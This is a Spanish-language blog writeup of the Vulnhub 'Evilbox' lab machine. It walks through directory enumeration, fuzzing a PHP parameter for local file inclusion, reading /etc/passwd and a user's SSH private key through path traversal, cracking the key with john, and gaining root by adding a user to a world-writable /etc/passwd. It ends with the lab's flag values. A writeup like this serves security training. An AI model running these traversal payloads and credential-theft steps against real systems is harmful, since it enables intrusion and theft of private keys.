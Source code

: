 ```yaml
---
title: "Evilbox"
excerpt: "[Easy][Vulnhub] Writeup de Evilbox."
header:
  video:
    id: DthHviQmpS4
    provider: youtube
  teaser: ""
tags:
  - vulnhub
  - easy
  - writeup
  - video
categories:
  - vulnhub
---
```


[https://www.vulnhub.com/entry/odin-1,619//](https://www.vulnhub.com/entry/odin-1,619/)


```bash
sudo nmap -vvv -sS -sV -O -Pn 192.168.122.0/24
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/1.png){: .align-center}

Saldrá una IP con los puertos 80 y 22 abiertos

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/2.png){: .align-center}

Al entrar en la web aparecerá la página por defecto de Apache y no se mostrará nada en el código fuente

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/3.png){: .align-center}

Escanear todos los directorios ocultos

```bash
sudo gobuster dir –u 192.168.122.14 -w /usr/share/wordlists/dirb/big.txt
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/4.png){: .align-center}

Mostrará el archivo `robots.txt` y un directorio llamado `secret`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/5.png){: .align-center}

Ir a robots.txt, no mostrará nada relevante
`192.168.122.14/robots.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/6.png){: .align-center}

Ir a secret, no mostrará contenido, sin embargo tampoco mostrará mensaje de error
`192.168.122.14/secret`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/7.png){: .align-center}

Realizar escaneo de directorios bajo el directorio secret y listando todo lo que termine en html, php o txt

```bash
sudo gobuster dir –u 192.168.122.14/secret  -w /usr/share/wordlists/dirb/big.txt -x html,php,txt
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/8.png){: .align-center}

Aparecerá un nuevo archivo llamado `evil.php`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/9.png){: .align-center}

Al ir de nuevo no mostrará nada, ni si quiera mensaje de error

`192.168.122.14/secret/evil.php`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/10.png){: .align-center}

Tratar de fuzzear para intentar ejecutar comandos y de este modo leer el contenido de `/etc/passwd`

```bash
wfuzz -u "http://192.168.122.14/secret/evil.php?FUZZ=../../../../../../etc/passwd"  -w /usr/share/wordlists/fuzz-lfi-params-list.txt -hw 0
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/11.png){: .align-center}

Aparecerá como resultado que puede usarse command

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/12.png){: .align-center}

Ir a la url añadiendo `?command=../../../../../../etc/passwd`

`192.168.122.14/secret/evil.php?command=../../../../../../etc/passwd`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/13.png){: .align-center}

Inspeccionar el código fuente para que se muestre de forma ordenada

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/14.png){: .align-center}

Al observar el archivo `/etc/passwd` podrá verse un usuario llamado mowree

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/15.png){: .align-center}

Ir a `/home/mowree/.ssh/id_rsa` para buscar la clave privada del usuario

http://192.168.122.14/secret/evil.php?FUZZ=/home/mowree/.ssh/id_rsa

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/16.png){: .align-center}

Copiar la clave privada y guardarla en el equipo atacante

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/17.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/18.png){: .align-center}

Convertirlo a hash con la herramienta ssh2john.py y guardarlo en otro archivo nuevo

```bash
/usr/share/john/ssh2john.py id_rsa > id_rsa_hash.txt
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/19.png){: .align-center}

Crackear la contraseña con john

```bash
john id_rsa_hash.txt
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/20.png){: .align-center}

Mostrará la contraseña como resultado

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/21.png){: .align-center}

Entrar por ssh con el usuario mowree y la contraseña encontrada

```bash
ssh mowree@192.168.122.14 -i id_rsa
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/22.png){: .align-center}

Mostrar el contenido del directorio home del usuario mowree y leer el archivo `user.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/23.png){: .align-center}

Al mostrar los permisos de `/etc/passwd` podrá verse que tiene permiso de escritura para todos los usuarios

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/24.png){: .align-center}

Crear una nuevo usuario con una clave creada en  formato sha-512 desde la maquina atacante

```bash
mkpasswd -m sha-512
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/25.png){: .align-center}

Guardarla en un archivo y crear una linea como si de un usuario se tratase, dando permisos de root

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/26.png){: .align-center}

Copiar este nuevo usuario y ponerlo en el `/etc/passwd` de la máquina victima  

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/27.png){: .align-center}

Cambiar al usuario nuevo

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/28.png){: .align-center}

Ir a `/root` y mostrar el contenido de root.txt

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/evilbox/29.png){: .align-center}

## Flags

User: 56Rbp0soobpzWSVzKh9YOvzGLgtPZQ

Root: 36QtXfdJWvdC0VavlPIApUbDlqTsBM
